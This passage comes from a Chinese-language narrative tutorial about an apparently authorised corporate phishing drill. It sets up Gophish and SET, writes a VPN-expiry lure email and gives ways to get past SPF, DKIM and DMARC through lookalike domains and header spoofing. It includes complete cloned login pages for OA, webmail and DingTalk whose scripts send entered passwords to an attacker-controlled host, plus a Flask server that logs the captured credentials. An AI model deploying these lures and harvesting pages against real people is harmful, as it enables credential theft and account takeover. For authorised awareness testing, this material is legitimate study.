> - 跟踪统计（打开率、点击率、中招率）
> - 生成可视化报表
>
> 官网：https://getgophish.com
> GitHub：https://github.com/gophish/gophish

**图125-2 Gophish架构与工作流程**


#### 5.1.1 安装Gophish

小陈在自己的测试服务器上，开始安装Gophish：

```bash
# 第一步：下载Gophish
# 官方下载地址：https://github.com/gophish/gophish/releases
# 小陈用的是v0.12.1版本

wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip

# 第二步：解压
unzip gophish-v0.12.1-linux-64bit.zip -d gophish
cd gophish

# 第三步：修改配置文件
# Gophish的配置文件是 config.json
# 默认监听 127.0.0.1:3333（管理后台）和 0.0.0.0:80（钓鱼页面）
# 小陈改了一下，让管理后台只在内网访问，钓鱼页面用443端口

cat config.json
```

**Gophish配置文件示例：**
```json
{
    "admin_server": {
        "listen_url": "127.0.0.1:3333",
        "use_tls": true,
        "cert_path": "gophish_admin.crt",
        "key_path": "gophish_admin.key"
    },
    "phish_server": {
        "listen_url": "0.0.0.0:443",
        "use_tls": true,
        "cert_path": "phish.crt",
        "key_path": "phish.key"
    },
    "db_name": "sqlite3",
    "db_path": "gophish.db",
    "migrations_prefix": "db/db_",
    "contact_address": "",
    "logging": {
        "filename": "",
        "level": ""
    }
}
```

```bash
# 第四步：生成自签名证书（测试用，正式要用合法证书）
# 钓鱼页面用HTTPS，看起来更正规
openssl req -x509 -newkey rsa:2048 -keyout phish.key -out phish.crt -days 365 -nodes -subj "/CN=login.company.com"

# 第五步：启动Gophish
./gophish

# 启动后，访问 https://127.0.0.1:3333
# 默认账号：admin
# 默认密码：gophish（第一次登录会要求修改）
```

> 💡 **小陈的踩坑记录：**
> ```
> 踩坑1：端口冲突
>   - Gophish默认钓鱼页面用80端口，但服务器上80被Nginx占了
>   - 解决：改成443端口，用HTTPS
>
> 踩坑2：证书问题
>   - 自签名证书，浏览器会报警告
>   - 解决：用Let's Encrypt申请免费证书（需要域名）
>   - 或者用acme.sh自动申请
>
> 踩坑3：邮件发不出去
>   - 用自己的邮箱发，被对方的邮件网关拦了
>   - 解决：要搭自己的邮件服务器，配置好SPF/DKIM/DMARC
>   - 这部分后面会详细讲
> ```

#### 5.1.2 配置发送策略（Sending Profiles）

Gophish装好后，第一步是配置"发送策略"——就是告诉Gophish用哪个SMTP服务器发邮件。

**图125-3 Gophish配置流程**


```
📋 Gophish发送策略配置：

【字段说明】
- Name: 这个策略的名字（自己起，比如"公司IT部门"）
- From: 发件人地址（比如 it-support@company.com）
- Host: SMTP服务器地址（比如 smtp.xxx.com:587）
- Username: SMTP登录账号
- Password: SMTP登录密码
- Ignore Cert Errors: 忽略证书错误（测试用）

【高级设置】
- Header: 可以自定义邮件头
  → 这里有玄机！可以伪造邮件头，后面会讲
- Envelope Sender: 信封发件人（和From可以不一样）
  → 这个也能利用，绕过一些检测
```

#### 5.1.3 制作邮件模板

邮件模板是Gophish的核心。模板做得好不好，直接决定了钓鱼的成败。

**小陈的第二版钓鱼邮件模板（进步版）：**
```html
<!-- 邮件主题 -->
主题：【重要】您的VPN证书将于今晚24点过期，请及时更新

<!-- 邮件正文（HTML）-->
<html>
<body style="font-family: 'Microsoft YaHei', Arial, sans-serif; font-size: 14px; color: #333; line-height: 1.6;">

<table width="600" cellpadding="0" cellspacing="0" style="margin: 0 auto; border: 1px solid #e0e0e0; border-radius: 4px;">
  <!-- 头部Logo -->
  <tr>
    <td style="background-color: #1890ff; padding: 20px; text-align: center;">
      <span style="color: #fff; font-size: 20px; font-weight: bold;">XX科技 · IT服务台</span>
    </td>
  </tr>
  
  <!-- 正文内容 -->
  <tr>
    <td style="padding: 30px;">
      <p>您好，</p>
      
      <p>根据公司<b>信息安全管理制度</b>的要求，所有员工的VPN证书需每90天更新一次。</p>
      
      <p>经系统检测，您的VPN证书将于 <b>今晚24:00</b> 过期。如未及时更新，<b>将无法远程登录公司内网</b>，影响正常办公。</p>
      
      <p>请点击下方按钮，使用您的域账号登录并完成证书更新（整个过程约需30秒）：</p>
      
      <p style="text-align: center; margin: 30px 0;">
        <a href="{{.URL}}" style="background-color: #1890ff; color: #fff; padding: 12px 40px; text-decoration: none; border-radius: 4px; font-size: 16px; display: inline-block;">立即更新VPN证书</a>
      </p>
      
      <p style="color: #999; font-size: 12px;">注：本邮件由系统自动发送，请勿回复。如有疑问，请联系IT服务台（分机：8000）。</p>
    </td>
  </tr>
  
  <!-- 底部 -->
  <tr>
    <td style="background-color: #f5f5f5; padding: 15px; text-align: center; color: #999; font-size: 12px;">
      © 2024 XX科技有限公司 · 信息技术部
    </td>
  </tr>
</table>

</body>
</html>
```

> 💡 **注意那个 `{{.URL}}`**
> 这是Gophish的模板变量，发送时会被替换成真实的钓鱼链接。
> 每个收件人收到的链接都是唯一的，方便追踪谁点了。

**这版邮件比第一版好在哪里？**
```
✅ 第二版邮件的改进点：

1. 伪装更真实
   - 加了公司Logo样式（蓝色头部，看起来像官方）
   - 落款是"XX科技·IT服务台"
   - 加了版权信息
   
2. 理由更合理
   - "VPN证书90天更新"——这是很多公司的真实政策
   - 不是凭空捏造，符合业务逻辑

3. 情绪触发更强
   - "今晚24:00过期"——紧迫感
   - "无法远程登录"——恐惧感（影响办公）
   - "30秒完成"——降低戒备（很简单）

4. 操作更简单
   - 大大的蓝色按钮，一看就知道点哪里
   - "使用域账号登录"——给了一个心理预期，让人觉得正常

5. 细节更到位
   - "请勿回复"——避免员工回复邮件被识破
   - "联系IT服务台分机8000"——给了一个退路，显得正规
```

### 5.2 SET：社会工程学工具包

除了Gophish，小陈还研究了另一个工具——**SET（Social Engineering Toolkit）**。

> 📌 **什么是SET？**
> SET（社会工程学工具包）是一个开源的社工攻击框架。
> 由David Kennedy（ReL1K）开发，用Python写的。
> 集成了各种社工攻击工具：钓鱼、伪造网页、Payload生成、短信钓鱼...
>
> GitHub：https://github.com/trustedsec/social-engineer-toolkit

**SET的主要功能：**
```
🎯 SET功能菜单：

1) Social-Engineering Attacks          → 社工攻击
2) Website Attack Vectors              → 网站攻击向量
3) Credential Harvester Attack         → 凭证收集攻击
4) Spear-Phishing Attack Vectors       → 鱼叉式钓鱼
5) Mass Mailer Attack                  → 批量邮件
6) Arduino-Based Attack Vector         → Arduino攻击（BadUSB）
7) Wireless Access Point Attack Vector → 无线AP攻击
8) QRCode Generator Attack Vector      → 二维码钓鱼
9) PowerShell Attack Vectors           → PowerShell攻击
10) SMS Spoofing Attack Vector         → 短信伪造

99) Exit
```

小陈最感兴趣的是这几个：
- **3) 凭证收集攻击**：自动克隆网页，捕获账号密码
- **4) 鱼叉式钓鱼**：发送带附件/Payload的钓鱼邮件
- **8) 二维码钓鱼**：生成钓鱼二维码
- **6) Arduino攻击**：BadUSB相关

#### 5.2.1 用SET克隆钓鱼页面

SET最方便的功能，就是能一键克隆网页：

```bash
# 启动SET
sudo setoolkit

# 选择 1) Social-Engineering Attacks
# 选择 2) Website Attack Vectors  
# 选择 3) Credential Harvester Attack
# 选择 2) Site Cloner

# 输入要克隆的网址
# 比如：克隆公司OA登录页
URL to clone: https://oa.company.com/login

# 输入钓鱼服务器IP
IP address for POST: 10.0.0.123

# SET会自动：
# 1. 下载目标网页的HTML/CSS/JS/图片
# 2. 修改表单的action，指向你的服务器
# 3. 启动一个Web服务器（默认80端口）
# 4. 等待用户输入账号密码
# 5. 捕获后，可以跳转到真实页面
```

**SET克隆的原理：**
```
📊 网页克隆原理：

1. 用户访问钓鱼链接 → 钓鱼服务器
2. 钓鱼服务器返回 → 克隆的登录页面（和真的一模一样）
3. 用户输入账号密码 → 提交到钓鱼服务器
4. 钓鱼服务器 → 记录账号密码
5. 钓鱼服务器 → 跳转到真实页面（用户以为登录失败了）
6. 用户再次输入账号密码 → 真实服务器（登录成功）
7. 用户毫无察觉 → 攻击者拿到账号密码

这个过程叫"凭证收集"（Credential Harvesting）
用户完全无感知，以为自己只是输错了密码
```

> 💡 **SET的优点：**
> - 一键克隆，简单方便
> - 自动修改表单action
> - 自动捕获凭证
> - 适合快速部署
>
> **SET的缺点：**
> - 克隆的页面是静态的，如果原页面改了，钓鱼页面就过时了
> - 不支持动态交互（比如验证码）
> - 比较容易被检测（特征明显）
>
> **小陈的选择：**
> 简单场景用SET（快速克隆）
> 复杂场景用Gophish + 手工制作页面（更精细）

### 5.3 邮件伪造：SPF/DKIM/DMARC的攻防

钓鱼邮件能不能成功，送达率是关键。

如果邮件直接进了垃圾箱，再好的钓鱼内容也没用。

小陈开始研究邮件伪造——怎么让钓鱼邮件看起来"正规"，绕过各种邮件认证机制。

#### 5.3.1 三大邮件认证机制

**图125-4 邮件认证机制（SPF/DKIM/DMARC）**


**SPF（Sender Policy Framework）**
```
📋 SPF是什么？

SPF = 发件人策略框架
作用：指定哪些IP可以为这个域名发邮件

原理：
1. 域名所有者在DNS里设置SPF记录
2. 收件方收到邮件时，查询发件域名的SPF记录
3. 检查发件IP是否在SPF记录里
4. 如果在 → 通过
5. 如果不在 → 失败（可能被拒/进垃圾箱）

SPF记录示例（DNS TXT记录）：
  v=spf1 ip4:192.168.1.0/24 ip4:10.0.0.1 include:_spf.google.com -all

解释：
  v=spf1              → SPF版本
  ip4:192.168.1.0/24  → 允许这个网段发邮件
  ip4:10.0.0.1        → 允许这个IP发邮件
  include:_spf.google.com → 包含Google的SPF记录
  -all                → 其他IP全部拒绝（-是硬拒绝，~是软拒绝）

怎么查SPF记录？
  dig TXT company.com
  或者
  nslookup -type=TXT company.com
```

**DKIM（DomainKeys Identified Mail）**
```
📋 DKIM是什么？

DKIM = 域名密钥识别邮件
作用：用数字签名验证邮件内容没被篡改

原理：
1. 域名所有者生成一对密钥（公钥+私钥）
2. 私钥放在发件服务器上，用来签名
3. 公钥放在DNS里，任何人都能查到
4. 发邮件时，服务器用私钥对邮件签名
5. 收件方查DNS拿到公钥，验证签名
6. 验证通过 → 邮件确实来自该域名，且未被篡改
7. 验证失败 → 邮件可能被伪造

DKIM签名在邮件头里：
  DKIM-Signature: v=1; a=rsa-sha256; d=company.com; 
    s=default; c=relaxed/relaxed; t=1234567890;
    h=from:to:subject;
    bh=base64编码的邮件体哈希;
    b=base64编码的签名;

怎么查DKIM公钥？
  dig TXT default._domainkey.company.com
  （格式：选择器._domainkey.域名）
```

**DMARC（Domain-based Message Authentication, Reporting & Conformance）**
```
📋 DMARC是什么？

DMARC = 基于域名的邮件认证、报告和一致性
作用：告诉收件方，如果SPF/DKIM都失败，该怎么处理

原理：
1. DMARC基于SPF和DKIM的结果
2. 域名所有者在DNS里设置DMARC策略
3. 收件方根据策略，决定怎么处理失败的邮件

DMARC记录示例（DNS TXT记录）：
  v=DMARC1; p=reject; rua=mailto:dmarc@company.com; pct=100; adkim=s; aspf=s

解释：
  v=DMARC1         → DMARC版本
  p=reject         → 策略：拒绝（p=none放行，p=quarantine隔离，p=reject拒绝）
  rua=mailto:...   → 报告发送地址
  pct=100          → 100%应用此策略
  adkim=s          → DKIM对齐模式（s=严格，r=放松）
  aspf=s           → SPF对齐模式（s=严格，r=放松）

怎么查DMARC记录？
  dig TXT _dmarc.company.com
```

#### 5.3.2 怎么绕过这些认证？

小陈研究了各种绕过方法，总结如下：

```
🔓 绕过邮件认证的方法：

方法1：注册相似域名
   - 目标域名：company.com
   - 注册：company-mail.com / company-update.com / company-vpn.com
   - 优点：用自己的域名，SPF/DKIM/DMARC都能通过
   - 缺点：要花钱买域名，而且细心的人能看出来
   - 实际效果：⭐⭐⭐⭐⭐ 最好用

方法2：利用未配置DMARC的域名
   - 很多公司的子域名没配DMARC
   - 比如mail.company.com有DMARC，但hr.company.com没有
   - 用hr.company.com发邮件，可能绕过检测
   - 实际效果：⭐⭐⭐⭐

方法3：利用SPF的include漏洞
   - 有些公司的SPF记录里include了第三方服务
   - 比如 include:_spf.google.com
   - 如果你能在Google上注册该域名的邮箱，就能用Google的IP发邮件
   - 实际效果：⭐⭐⭐

方法4：Display Name欺骗
   - 不伪造发件地址，只伪造显示名
   - 发件人：hacker@evil.com
   - 显示名："IT服务台 <it-support@company.com>"
   - 邮件列表里显示的是"IT服务台"，看起来像内部的
   - 但点开详情能看到真实地址
   - 实际效果：⭐⭐⭐（骗粗心的人足够了）

方法5：利用合法邮件服务
   - 用SendGrid、Mailgun、Amazon SES等合法邮件服务发
   - 这些服务的IP信誉高，不容易进垃圾箱
   - 但发件地址还是自己的域名
   - 实际效果：⭐⭐⭐⭐

方法6：信封发件人(Envelope Sender)欺骗
   - 邮件有两个发件人：
     * Header From（邮件头里的From，用户看到的）
     * Envelope From（SMTP通信时的MAIL FROM，服务器用的）
   - SPF检查的是Envelope From
   - 如果Envelope From用合法域名，Header From用伪造域名
   - 可能绕过SPF检查
   - 实际效果：⭐⭐⭐
```

**小陈的邮件伪造实践：**
```bash
# 方法1：注册相似域名
# 小陈在公司授权下，注册了几个相似域名：
# - company-update.com  → 假装是系统更新通知
# - company-mail.com    → 假装是邮件系统
# - company-it.com      → 假装是IT部门

# 方法2：配置自己的邮件服务器
# 用Postfix搭建SMTP服务器
sudo apt install postfix

# 配置SPF记录（DNS）
# company-update.com的DNS TXT记录：
# v=spf1 ip4:你的服务器IP -all

# 配置DKIM（用opendkim）
sudo apt install opendkim opendkim-tools

# 生成DKIM密钥
opendkim-genkey -s default -d company-update.com
# 会生成 default.private 和 default.txt

# 把公钥放到DNS
# default._domainkey.company-update.com 的TXT记录：
# （default.txt文件的内容）

# 配置DMARC
# _dmarc.company-update.com的DNS TXT记录：
# v=DMARC1; p=none; rua=mailto:dmarc@company-update.com

# 这样，从company-update.com发出的邮件，
# SPF/DKIM/DMARC全部通过，不会进垃圾箱！

# 方法3：用swaks测试邮件发送
# swaks是一个命令行邮件测试工具
swaks --to victim@company.com \
      --from it-support@company-update.com \
      --server 你的邮件服务器 \
      --header "Subject: VPN证书更新通知" \
      --body "请点击以下链接更新证书: https://company-update.com/vpn-update"
```

**邮件头伪造示例：**
```
📋 邮件头伪造技巧：

正常的邮件头：
From: IT服务台 <it-support@company.com>
Reply-To: it-support@company.com
Return-Path: it-support@company.com

伪造的邮件头（方法1：Display Name欺骗）：
From: "IT服务台 <it-support@company.com>" <hacker@company-update.com>
Reply-To: hacker@company-update.com
Return-Path: hacker@company-update.com
→ 邮件列表显示"IT服务台 <it-support@company.com>"
→ 但真实发件人是hacker@company-update.com
→ 粗心的人看不出区别

伪造的邮件头（方法2：信封发件人欺骗）：
Header From: it-support@company.com（用户看到的）
Envelope From: genuine@company-update.com（SPF检查这个）
→ SPF检查company-update.com，通过
→ 用户看到的是company.com，以为是真的
→ 但DMARC对齐检查能发现（如果配置了adkim=s和aspf=s）
```

> 💡 **小陈的感悟：**
> "原来邮件伪造有这么多门道。
> 之前我直接用内网IP发邮件，当然会被识破。
> 现在我知道了——要钓鱼，先把邮件送达率搞定。
> 邮件都到不了收件箱，再好的话术也白搭。"

---

## 🎨 制作钓鱼页面：细节决定成败

### 6.1 克隆企业OA登录页

邮件搞定后，接下来是钓鱼页面。

钓鱼页面的核心原则：**和真的一模一样**。

小陈选择了三个目标：
1. 企业OA系统登录页
2. 企业邮箱登录页
3. 钉钉登录页

**为什么选这三个？**
```
🎯 钓鱼页面目标选择：

1. OA系统
   - 几乎每个员工每天都要登录
   - 账号密码就是域账号
   - 拿到OA账号 = 拿到域账号 = 内网通行证

2. 企业邮箱
   - 员工每天收发邮件
   - 邮箱账号通常也是域账号
   - 还能看到邮件里的其他敏感信息

3. 钉钉
   - 现在很多公司用钉钉办公
   - 钉钉扫码登录很多内部系统
   - 钉钉账号被盗，影响很大
```

#### 6.1.1 手工克隆OA页面

小陈没有用SET一键克隆，而是选择手工制作——因为他要做得更逼真。

```bash
# 第一步：保存真实页面
# 用浏览器打开 https://oa.company.com/login
# 右键 → 另存为 → 网页，全部保存
# 会得到一个login.html和一个文件夹（图片/CSS/JS）

# 第二步：分析页面结构
# 用开发者工具(F12)看源码
# 找到登录表单的action和input字段

# 第三步：修改表单action
# 把表单的提交地址，改成钓鱼服务器的接收地址
```

**真实OA登录页的HTML结构（简化版）：**
```html
<!-- 真实页面的表单 -->
<form action="https://oa.company.com/login" method="post" id="loginForm">
    <input type="text" name="username" placeholder="请输入用户名" />
    <input type="password" name="password" placeholder="请输入密码" />
    <button type="submit">登录</button>
</form>
```

**修改后的钓鱼页面：**
```html
<!-- 钓鱼页面的表单 -->
<!-- action改成钓鱼服务器的接收地址 -->
<form action="https://phish.company-update.com/capture" method="post" id="loginForm">
    <input type="text" name="username" placeholder="请输入用户名" />
    <input type="password" name="password" placeholder="请输入密码" />
    <button type="submit">登录</button>
</form>

<!-- 加一段JS，让页面看起来更真实 -->
<script>
// 自动填充用户名（如果URL里带参数）
// 这样钓鱼链接里可以带用户名，页面自动填好，用户只需输密码
const urlParams = new URLSearchParams(window.location.search);
const prefillUser = urlParams.get('u');
if (prefillUser) {
    document.querySelector('input[name="username"]').value = prefillUser;
    // 自动聚焦到密码框
    document.querySelector('input[name="password"]').focus();
}

// 提交表单时，显示"登录中..."
document.getElementById('loginForm').addEventListener('submit', function(e) {
    e.preventDefault(); // 先阻止默认提交
    
    // 显示loading
    const btn = this.querySelector('button[type="submit"]');
    btn.textContent = '登录中...';
    btn.disabled = true;
    
    // 收集表单数据
    const formData = new FormData(this);
    const data = {};
    formData.forEach((value, key) => {
        data[key] = value;
    });
    
    // 发送到钓鱼服务器
    fetch('https://phish.company-update.com/capture', {
        method: 'POST',
        body: JSON.stringify(data),
        headers: {
            'Content-Type': 'application/json'
        }
    }).then(() => {
        // 提交成功后，跳转到真实页面
        // 用户以为登录失败了，会重新登录
        window.location.href = 'https://oa.company.com/login?error=1';
    }).catch(() => {
        // 失败也跳转
        window.location.href = 'https://oa.company.com/login?error=1';
    });
});
</script>
```

#### 6.1.2 钓鱼服务器的接收脚本

小陈用Python写了一个简单的接收脚本：

```python
#!/usr/bin/env python3
# capture.py - 钓鱼凭证接收服务器
# 用Flask写的，简单实用

from flask import Flask, request, jsonify
from datetime import datetime
import json
import os

app = Flask(__name__)

# 日志文件
LOG_FILE = '/var/log/phish/credentials.log'

# 确保日志目录存在
os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)

@app.route('/capture', methods=['POST'])
def capture():
    """接收钓鱼页面提交的账号密码"""
    # 获取数据
    if request.is_json:
        data = request.get_json()
    else:
        data = request.form.to_dict()
    
    # 加上元信息
    data['captured_at'] = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    data['ip'] = request.remote_addr
    data['user_agent'] = request.headers.get('User-Agent', '')
    data['referer'] = request.headers.get('Referer', '')
    
    # 写入日志
    with open(LOG_FILE, 'a', encoding='utf-8') as f:
        f.write(json.dumps(data, ensure_ascii=False) + '\n')
    
    # 控制台打印（方便实时看）
    print(f"[+] 捕获到凭证！")
    print(f"    用户名: {data.get('username', 'N/A')}")
    print(f"    密码: {data.get('password', 'N/A')}")
    print(f"    IP: {data['ip']}")
    print(f"    时间: {data['captured_at']}")
    print(f"    UA: {data['user_agent']}")
    print("-" * 50)
    
    return jsonify({"status": "ok"})

@app.route('/stats', methods=['GET'])
def stats():
    """查看统计"""
    if not os.path.exists(LOG_FILE):
        return jsonify({"total": 0})
    
    count = 0
    with open(LOG_FILE, 'r', encoding='utf-8') as f:
        for line in f:
            count += 1
    
    return jsonify({"total_captured": count})

if __name__ == '__main__':
    # 监听443端口（HTTPS）
    app.run(host='0.0.0.0', port=443, 
            ssl_context=('phish.crt', 'phish.key'))
```

```bash
# 启动接收服务器
python3 capture.py

# 查看实时捕获
tail -f /var/log/phish/credentials.log

# 查看统计
curl https://phish.company-update.com/stats
```

### 6.2 克隆企业邮箱登录页

企业邮箱的钓鱼页面，小陈做得更用心。

因为邮箱登录页通常有更多元素（Logo、背景、版权信息），要做得以假乱真。

**企业邮箱钓鱼页面的关键细节：**
```
🔍 钓鱼页面要做到的细节：

1. Logo
   - 必须和真实的一模一样
   - 直接从真实页面下载，或者用一样的图片地址
   - 位置、大小、间距都要对

2. 颜色/字体
   - 主色调要一致
   - 字体要一致（微软雅黑/思源黑体/...）
   - 字号要一致

3. 布局
   - 输入框的位置、大小、圆角
   - 按钮的样式
   - 整体布局（左右/上下/居中）

4. 行为
   - 输入框的placeholder要一样
   - 按钮点击效果要一样
   - "记住密码"勾选框要有
   - 错误提示要像

5. URL
   - 钓鱼链接要看起来正常
   - 用相似域名：mail.company-update.com
   - 或者用短链接掩盖

6. 证书
   - 必须HTTPS
   - 证书最好合法（Let's Encrypt免费申请）
   - 自签名证书浏览器会报警告
```

**小陈的企业邮箱钓鱼页面（完整版）：**
```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>XX科技邮箱登录</title>
    <!-- 直接引用真实页面的CSS -->
    <link rel="stylesheet" href="https://mail.company.com/static/css/login.css">
    <style>
        /* 补充一些样式，确保和真实页面一致 */
        body {
            font-family: 'Microsoft YaHei', sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            margin: 0;
            padding: 0;
            min-height: 100vh;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .login-container {
            background: #fff;
            border-radius: 8px;
            box-shadow: 0 4px 20px rgba(0,0,0,0.1);
            padding: 40px;
            width: 360px;
        }
        .logo {
            text-align: center;
            margin-bottom: 30px;
        }
        .logo img {
            height: 50px;
        }
        .form-group {
            margin-bottom: 20px;
        }
        .form-group input {
            width: 100%;
            padding: 12px;
            border: 1px solid #ddd;
            border-radius: 4px;
            font-size: 14px;
            box-sizing: border-box;
        }
        .form-group input:focus {
            border-color: #667eea;
            outline: none;
        }
        .login-btn {
            width: 100%;
            padding: 12px;
            background: #667eea;
            color: #fff;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
            transition: background 0.3s;
        }
        .login-btn:hover {
            background: #764ba2;
        }
        .footer {
            text-align: center;
            margin-top: 20px;
            color: #999;
            font-size: 12px;
        }
        .error-msg {
            color: #ff4d4f;
            font-size: 12px;
            margin-top: 5px;
            display: none;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <div class="logo">
            <!-- 直接引用真实Logo -->
            
        </div>
        
        <form id="loginForm" action="#" method="post">
            <div class="form-group">
                <input type="text" name="username" placeholder="请输入邮箱地址" autocomplete="off">
            </div>
            <div class="form-group">
                <input type="password" name="password" placeholder="请输入密码">
            </div>
            <div class="error-msg" id="errorMsg">用户名或密码错误，请重新输入</div>
            <button type="submit" class="login-btn">登 录</button>
        </form>
        
        <div class="footer">
            © 2024 XX科技有限公司 · 邮箱系统 v3.2.1
        </div>
    </div>

    <script>
    // URL参数预填充用户名
    const urlParams = new URLSearchParams(window.location.search);
    const prefillUser = urlParams.get('u');
    if (prefillUser) {
        document.querySelector('input[name="username"]').value = prefillUser;
        document.querySelector('input[name="password"]').focus();
    }
    
    // 表单提交
    document.getElementById('loginForm').addEventListener('submit', function(e) {
        e.preventDefault();
        
        const btn = this.querySelector('.login-btn');
        const originalText = btn.textContent;
        btn.textContent = '登录中...';
        btn.disabled = true;
        
        // 收集数据
        const data = {
            username: this.username.value,
            password: this.password.value,
            timestamp: new Date().toISOString(),
            page: 'mail_login'
        };
        
        // 发送到钓鱼服务器
        fetch('https://phish.company-update.com/capture', {
            method: 'POST',
            body: JSON.stringify(data),
            headers: {'Content-Type': 'application/json'}
        }).finally(() => {
            // 延迟1秒，模拟登录失败
            setTimeout(() => {
                // 显示错误提示
                document.getElementById('errorMsg').style.display = 'block';
                btn.textContent = originalText;
                btn.disabled = false;
                
                // 3秒后跳转到真实页面
                setTimeout(() => {
                    window.location.href = 'https://mail.company.com/login';
                }, 3000);
            }, 1000);
        });
    });
    </script>
</body>
</html>
```

> 💡 **这个钓鱼页面"真"在哪里？**
> 1. **CSS直接引用真实页面的**（`href="https://mail.company.com/..."`)
> 2. **Logo直接引用真实图片**
> 3. **布局、颜色、字体和真实页面一致**
> 4. **有"登录中..."的loading效果**
> 5. **有"用户名或密码错误"的提示**
> 6. **最后跳转到真实页面，用户以为是自己输错了**
> 7. **预填充用户名功能**（钓鱼链接里带参数，自动填好用户名）
>
> 这样的页面，95%的人看不出是假的。

### 6.3 克隆钉钉登录页

钉钉登录页是另一个高价值目标。

很多公司的内部系统，都支持"钉钉扫码登录"。如果拿到钉钉账号，可能就能登录很多内部系统。

**钉钉钓鱼的特殊之处：**
```
📋 钉钉钓鱼的特殊技巧：

1. 钉钉支持扫码登录
   - 真实钉钉登录页，有一个二维码
   - 用户用钉钉APP扫码就能登录
   - 钓鱼页面可以伪造二维码，但这比较复杂

2. 钉钉也支持账号密码登录
   - 手机号 + 密码
   - 这是钓鱼的重点

3. 钉钉的域名
   - 真实：login.dingtalk.com
   - 钓鱼：login-dingtalk.com / dingtalk-login.com
   - 或者用 company-update.com/dingtalk 路径

4. 钉钉登录页的特点
   - 左侧是品牌图（蓝色渐变）
   - 右侧是登录框
   - 有"扫码登录"和"账号密码登录"两个tab
   - 风格比较"互联网"
```

**小陈的钉钉钓鱼页面（核心部分）：**
```html
<!-- 钉钉风格登录页 -->
<div class="dingtalk-login">
    <div class="left-banner">
        <!-- 左侧品牌图 -->
        
    </div>
    <div class="right-form">
        <!-- Tab切换 -->
        <div class="tabs">
            <div class="tab active" onclick="switchTab('qrcode')">扫码登录</div>
            <div class="tab" onclick="switchTab('password')">账号密码登录</div>
        </div>
        
        <!-- 扫码登录（默认显示，但扫码用不了） -->
        <div id="qrcode-panel" class="panel">
            <div class="qrcode-placeholder">
                
                <p>请使用钉钉APP扫描二维码登录</p>
            </div>
        </div>
        
        <!-- 账号密码登录（这才是重点） -->
        <div id="password-panel" class="panel" style="display:none;">
            <form id="dingtalkForm">
                <input type="text" name="phone" placeholder="请输入手机号">
                <input type="password" name="password" placeholder="请输入密码">
                <button type="submit">登 录</button>
            </form>
        </div>
    </div>
</div>

<script>
function switchTab(type) {
    if (type === 'qrcode') {
        document.getElementById('qrcode-panel').style.display = 'block';
        document.getElementById('password-panel').style.display = 'none';
    } else {
        document.getElementById('qrcode-panel').style.display = 'none';
        document.getElementById('password-panel').style.display = 'block';
    }
}

// 默认引导用户用账号密码登录（扫码我们也收不到）
// 可以加个提示："扫码异常，请使用账号密码登录"
setTimeout(() => {
    switchTab('password');
    // 显示一个提示
    const tip = document.createElement('div');
    tip.className = 'tip';
    tip.textContent = '扫码服务异常，请使用账号密码登录';
    tip.style.cssText = 'color:#ff9800;font-size:12px;margin-bottom:10px;';
    document.getElementById('password-panel').prepend(tip);
}, 500);

// 表单提交
document.getElementById('dingtalkForm').addEventListener('submit', function(e) {
    e.preventDefault();
    // ... 和邮箱钓鱼一样的捕获逻辑
});
</script>
```

> 🎯 **小陈的钓鱼页面制作心得：**
> ```
> 做钓鱼页面，要把自己当成"产品经理"。
>
> 思考：
> 1. 用户看到这个页面，第一眼会注意什么？
>    → Logo、整体风格、URL
>    → 这三个对了，70%的人就信了
>
> 2. 用户输入账号密码时，会不会犹豫？
>    → 如果页面有任何"不对劲"，会犹豫
>    → 比如错别字、字体不对、间距不对、颜色不对
>    → 所以要100%还原
>
> 3. 用户提交后，怎么让他不起疑？
>    → 显示"登录中..."→"登录失败"
>    → 跳转到真实页面
>    → 用户以为是自己输错了密码
>    → 重新输入，登录成功，完全无感
>
> 4. 怎么提高"转化率"？
>    → 预填充用户名（钓鱼链接带参数）
>    → 自动聚焦密码框
>    → 减少操作步骤
>    → 这就是"产品思维"
> ```

---

## 🎉 第一次成功：30%的人中招

### 7.1 精心设计的钓鱼行动

研究了两周，小陈觉得自己准备好了。

他向老周申请，做第二次钓鱼演练。

这次，他做了一个完整的方案：

**图125-5 第二次钓鱼行动完整流程**


**小陈的第二次钓鱼方案：**
```
📋 第二次钓鱼方案（精心设计版）：

【目标人群】
- 研发部 + 产品部，共150人
- 不选IT部门（IT部门警惕性太高）
- 不选高管（怕闹太大）
- 选普通员工，更接近真实攻击场景

【钓鱼域名】
- company-update.com（已注册，已配置SPF/DKIM/DMARC）
- 申请了Let's Encrypt免费证书（HTTPS）

【发件人】
- it-support@company-update.com
- 显示名："XX科技·IT服务台"
- （用相似域名，绕过SPF/DKIM/DMARC）

【邮件主题】
- 【重要】VPN证书将于今晚24:00过期，请及时更新

【邮件正文】
- 伪装成IT部门通知
- 强调"今晚24:00过期"（紧迫感）
- 强调"无法远程办公"（恐惧感）
- 强调"30秒完成"（降低戒备）
- 大大的蓝色按钮（引导点击）

【钓鱼页面】
- 克隆OA登录页（100%还原）
- URL: https://oa.company-update.com/login
- 提交后跳转到真实OA（用户无感）

【发送时间】
- 周三上午10:00（员工最忙的时候，没时间细看）
- 不选周一（周末综合症，没心思看邮件）
- 不选周五（要下班了，心思不在工作上）

【钓鱼链接】
- 每个人收到的链接都是唯一的（Gophish的追踪功能）
- 链接里带用户名参数，自动填充：?u=zhangsan
- 这样用户只需输入密码，减少操作

【后处理】
- 收到账号密码后，记录下来
- 统计中招率
- 生成报告
- 不实际使用这些账号（只是演练）
```

### 7.2 发送！

周三上午10:00，小陈按下了"发送"按钮。

150封钓鱼邮件，飞向了研发部和产品部的员工邮箱。

然后，就是等待。

小陈盯着Gophish的后台，心跳加速。

**实时数据（每5分钟刷新）：**
```
📊 10:05 - 发送完成
  发送：150封
  送达：149封（1封被网关拦了，但比第一次好多了）

📊 10:15 - 第一波打开
  打开：23人（15.4%）
  点击：5人（3.4%）
  中招：1人

📊 10:30 - 第二波
  打开：48人（32.2%）
  点击：18人（12.1%）
  中招：7人

📊 11:00 - 持续增长
  打开：72人（48.3%）
  点击：35人（23.5%）
  中招：18人

📊 12:00 - 午饭时间
  打开：82人（55.0%）
  点击：42人（28.2%）
  中招：28人

📊 14:00 - 下午继续
